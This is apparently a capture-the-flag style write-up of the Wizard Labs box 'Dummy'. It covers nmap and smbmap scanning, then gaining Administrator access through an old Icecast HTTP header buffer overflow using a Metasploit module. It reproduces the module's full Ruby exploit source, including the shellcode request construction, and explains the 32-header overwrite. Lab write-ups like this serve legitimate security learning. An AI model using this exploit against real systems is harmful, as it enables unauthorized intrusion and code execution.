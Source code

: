 ```yaml
---
layout: post
title: Wizard Labs - Dummy
categories: wizard-labs
tags: [windows, web, buffer-overflow, rce]
description: My write-up for Dummy from Wizard Labs.
image: /wizardlabs/dummy/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys this is my write-up about Dummy from [Wizard Labs](https://labs.wizard-security.net/). If you don't know them , They are a new penetration testing lab, They have 16 boxes so far and Dummy is their first box to retire. This lab is nice I definitely recommend checking it out. Dummy is a windows box and it was an easy one (Difficulty: 2/10). It had an http service which was vulnerable to a buffer overflow , and metasploit had a module for it so this box can be done easily through metasploit . I will show that, then we will take a look at the exploit and how it's happening. The ip of the box is 10.1.1.13 so let's jump right in.
![](/images/wizardlabs/dummy/0.png)
<hr>
## Nmap
<br> As we always do we will start by scanning the box with nmap , so :
`nmap -sV -sT -sC 10.1.1.13`
![](/images/wizardlabs/dummy/1.png)
<br> We see a lot of open ports , most of the http ports are running Microsoft HTTPAPI, we will ignore that and look at other things. We also see that the box has smb which is an interesting thing to look at so let's try smbmap
`smbmap -H 10.1.1.13`
![](/images/wizardlabs/dummy/2.png)
<br> And we immediately get Access Denied so smb is not helpful here.
<br> On port 8000 there's an http server and it's not running Microsoft HTTPAPI , it's running [Icecast streaming media server](http://icecast.org/). Let's check that port
<br>
<hr>
## Icecast
![](/images/wizardlabs/dummy/3.png)
<br> If we go to that port we get a 404 response which is odd. We can try bruteforcing directories with dirbuster but that won't help too much.
<br> By searching online we will find that an old version of icecast had a buffer overflow vulnerability which allowed for a remote code execution (RCE). And we also find a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header) . So let's open metasploit and search for icecast modules.
<br>
<hr>
## Metasploit
<br> By doing `search icecast` we will find the module , and it's an exploit from 2004. 
![](/images/wizardlabs/dummy/4.png)
`use windows/http/icecast_header`
<br>
`set LHOST 10.253.xx.xx`
<br>
`set RHOST 10.1.1.13`
<br>
`exploit`
![](/images/wizardlabs/dummy/5.png)
<br> And we got a meterpreter session. we can drop a shell by typing `shell` then if we type `whoami` we will find that we are already Administrator so no need for privilege escalation
![](/images/wizardlabs/dummy/6.png)
<br> Then we can grab the flags 
![](/images/wizardlabs/dummy/7.png)
<hr>
## Header Overwrite
<br> So now we did the box , but let's understand the exploit. basically it's a buffer overflow vulnerability, it happens because that version of icecast only accepted a maximum of 32 headers in the HTTP request , so if a request had 32 headers this caused the return address of the vulnerable function to be overwritten with a pointer to the begining of the header number 32. this means that anything we add as the 32nd header will be executed
<br> So if we make a request with 31 headers and add shellcode as the 32nd header we can get a reverse shell and that's what metasploit is doing. But if we look at the [source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/icecast_header.rb) of the module :
```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Icecast Header Overwrite',
      'Description'    => %q{
        This module exploits a buffer overflow in the header parsing of icecast
        versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32
        HTTP headers will cause a write one past the end of a pointer array. On
        win32 this happens to overwrite the saved instruction pointer, and on
        linux (depending on compiler, etc) this seems to generally overwrite
        nothing crucial (read not exploitable).

        This exploit uses ExitThread(), this will leave icecast thinking the
        thread is still in use, and the thread counter won't be decremented.
        This means for each time your payload exits, the counter will be left
        incremented, and eventually the threadpool limit will be maxed. So you
        can multihit, but only till you fill the threadpool.
      },
      'Author'         => [ 'spoonm', 'Luigi Auriemma <aluigi[at]autistici.org>' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2004-1561'],
          [ 'OSVDB', '10406'],
          [ 'BID', '11271'],
          [ 'URL', 'http://archives.neohapsis.com/archives/bugtraq/2004-09/0366.html'],
        ],
      'Privileged'     => false,
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'thread',
        },
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => "\x0d\x0a\x00",
          'DisableNops' => true,
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', { }],
        ],
      'DisclosureDate' => 'Sep 28 2004',
      'DefaultTarget' => 0))

    register_options(
      [
        Opt::RPORT(8000)
      ])
  end

  # Interesting that ebp is pushed after the local variables, and the line array
  # is right before the saved eip, so overrunning it just by 1 element overwrites
  # eip, making an interesting exploit....
  # .text:00414C00                 sub     esp, 94h
  # .text:00414C06                 push    ebx
  # .text:00414C07                 push    ebp
  # .text:00414C08                 push    esi

  def exploit
    connect

    # bounce bounce bouncey bounce.. (our chunk gets free'd, so do a little dance)
    # jmp 12
    evul = "\xeb\x0c / HTTP/1.1 #{payload.encoded}\r\n"
    evul << "Accept: text/html\r\n" * 31;

    # jmp [esp+4]
    evul << "\xff\x64\x24\x04\r\n"
    evul << "\r\n"

    sock.put(evul)

    handler
    disconnect
  end
end

```
<br> There's not much detail because it's based on metasploit so luckily I found this [refrence](https://securitytracker.com/id/1011439) which had a poc c code. 
<br> By looking at this part of the code :
![](/images/wizardlabs/dummy/8.png)
<br> We can see how the exploit is working. It's doing a GET request , adding 31 "a"s as headers , then the 32nd header is the shellcode.
<br> If you want to know more about bufferOverFlows check out my [other articles](/categories)
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br> Next Wizard Labs Write-up : [Wizard Labs - Devlife](/wizard-labs/dummy/)
<hr>
